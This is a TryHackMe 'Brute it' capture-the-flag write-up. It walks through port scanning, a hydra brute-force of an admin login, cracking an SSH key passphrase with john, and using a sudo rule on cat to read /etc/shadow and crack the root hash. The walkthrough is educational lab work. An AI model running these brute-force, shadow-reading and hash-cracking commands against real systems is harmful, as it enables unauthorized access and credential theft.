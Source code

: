 ```yaml
---
title: Brute it - Easy THM
date: 2023-11-12 08:11:31 +/-0800
categories: [writeup, tryhackme]
writeup: :title
permalink: /bruteit
tags: [thm, writeup, easy, linux, hash cracking, web, talace]     # TAG names should always be lowercase
---
```


- OS: Linux
- Difficulty: Easy
- Author: Talace🌌

## Scanning 🐧

**Threader3000**
```bash
python3 threader3000.py

Port 80 is open
Port 22 is open
```
**nmap scan**
```bash
nmap -p80,22 -sV -sC -T4 -Pn -oA 10.10.205.60 10.10.205.60

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Enumeration

Starting by enumerate the website with **dirb** 🧐
```bash
dirb http://10.10.205.60/ /usr/share/wordlists/dirb/common.txt

http://ip/admin/
```
Found a form login on the /admin/

![loginForm](/assets/bruteit/loginform.png)

Let's brute force it with **hydra**
```bash
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.205.60 http-post-form "/admin/:user=admin&pass=^PASS^:Username or password invalid"
```

### Found the creds! 😼

![hydraBruteForce](/assets/bruteit/hydraBruteForce.png)

We now got access to this page, we have the user's **flag** (youhou!), a user name's **John**, and a **private key ssh**

![panelAdmin](/assets/bruteit/panelAdmin.png)

Let's use **ssh2john** to crack it! 🤠
```bash
echo 'private rsa key' >> id_rsa

ssh2john id_rsa > id_rsa.hash

john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

### **We got the password!**

![johnCrackRsa](/assets/bruteit/johnCrackRsa.png)

# Privilege escalation

Connect via ssh
```bash
chmod 400 id_rsa

ssh -i
```

Looking for sudo rights and found this banger!
```bash
sudo -l

(root) NOPASSWD: /bin/cat
```

Let's use it for our own!
```bash
LFILE=/etc/shadow

sudo cat "$LFILE"
```

Now that i can read /etc/shadow, i'm going to crack it with unshadow && john
```bash
echo 'root:x:0:0:root:/root:/bin/bash' >> passwd.txt

echo 'root:hash' >> shadow.txt

unshadow passwd.txt shadow.txt > unshadow.txt
```

It's time to crack it!
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt unshadow.txt
```

> And me able to get root! Brute it is pwned! 😼

![root](/assets/convertMyVideo/root.png)

## Resources
[GTFObins : https://gtfobins.github.io/gtfobins/cat/](https://gtfobins.github.io/gtfobins/cat/)